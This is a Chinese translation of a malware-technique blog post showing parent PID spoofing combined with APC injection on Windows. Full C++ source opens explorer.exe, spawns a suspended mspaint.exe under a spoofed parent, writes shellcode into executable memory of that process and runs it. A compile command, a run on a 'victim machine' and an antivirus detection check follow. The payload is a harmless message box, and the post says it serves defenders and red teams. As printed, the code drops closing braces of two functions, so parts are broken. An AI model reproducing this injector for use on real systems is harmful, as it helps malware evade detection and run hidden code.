\newpage
\subsection{恶意软件开发技巧：父进程 PID 欺骗（简单的 C++ 示例）}

### 父进程 PID 欺骗

{width="80%"}

监控父进程与子进程之间的关系，是威胁狩猎团队识别恶意活动的常用方法。

红队已经把父进程 PID 欺骗当作一种规避手段来采用。

Windows API 调用 `CreateProcess` 支持一个形参，允许用户指定父 PID。

### 实战示例

我们来看一个实战示例。首先，假设我们有一个进程，比如 `mspaint.exe`：

{width="80%"}

如你所见，PID 是 3396。如果我们查看它的父进程（PID: 2876），可以看到是 `explorer.exe`：

{width="80%"}

我们还可以通过 Process Hacker 看到当前目录是 `C:\Windows\System32\`：

{width="80%"}

那么，这个技巧的执行流程由以下步骤组成：

获取 `explorer.exe` 的 PID：

```cpp
int pid = findMyProc(argv[1]);
if (pid) {
  printf("PID = %d\n", pid);

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);
```

创建 `mspaint.exe` 进程：

```cpp
CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, 
NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, 
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

把 meow-meow 载荷写入所创建进程的内存：

```cpp
BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);
```

向所创建进程的线程的 APC 队列中添加一个用户态异步过程调用（APC）对象：

```cpp
QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
```

恢复线程：

```cpp
ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
```

那么，这个技巧的完整源代码是：

```cpp
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  STARTUPINFOEXA si;
  PROCESS_INFORMATION pi;
  SIZE_T st;
  int pid = findMyProc(argv[1]);
  if (pid) {
  printf("PID = %d\n", pid);
  }

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

  ZeroMemory(&si, sizeof(STARTUPINFOEXA));
  InitializeProcThreadAttributeList(NULL, 1, 0, &st);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

  CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
  CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, 
  NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
  LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  SIZE_T *nb = 0;
  BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, 
  sizeof(my_payload), nb);

  QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
  ResumeThread(pi.hThread);
  CloseHandle(pi.hThread);

  return 0;

```

如你所见，我复用了我这篇和那篇文章里的代码。

这里我把被启动的进程写死了一点，你可以修改它，让它从命令行参数接受这个进程。

### 演示

我们来看一切实际运行的样子。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后在受害机器上运行它：

```powershell
.\hack.exe explorer.exe
```

{width="80%"}

运行 Process Hacker，如你所见，`mspaint.exe` 进程被成功创建（PID: 4720）：

{width="80%"}

以及：

{width="80%"}

{width="80%"}

如你所见，父进程是 2876，它对应 `explorer.exe`，但当前目录是 `Z:\2022-09-06-malware-tricks-23`！

那进程内存里有什么呢？

{width="80%"}

所以一切都完美工作了 :)

实际上我稍微骗了你一下。我的例子并不只是父进程欺骗，而是 PPID 欺骗和 APC 注入的组合。

我们把 `hack.exe` 上传到 VirusTotal：

{width="80%"}

所以，70 个 AV 引擎中有 20 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/3ec9f1080253f07695f0958ae84e99ff065f052c409f0f7e3e1a79cd4385a9d5/detection>

这项技术被 Cobalt Strike 和 KONNI RAT 所使用。

例如，Cobalt Strike 可以用替代的 PPID 来启动进程。

这项技术最初是由 Didier Stevens 在 2009 年介绍给更广泛的信息安全受众的。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

这篇文章是我自己对一个有趣技巧的研究结果：父进程 ID 欺骗。

这意味着恶意进程在被创建时，可以用一个不同于实际执行者的父进程。

因为我也在像你们一样学习新东西，有时候你需要问自己问题，并且不要害怕去尝试。
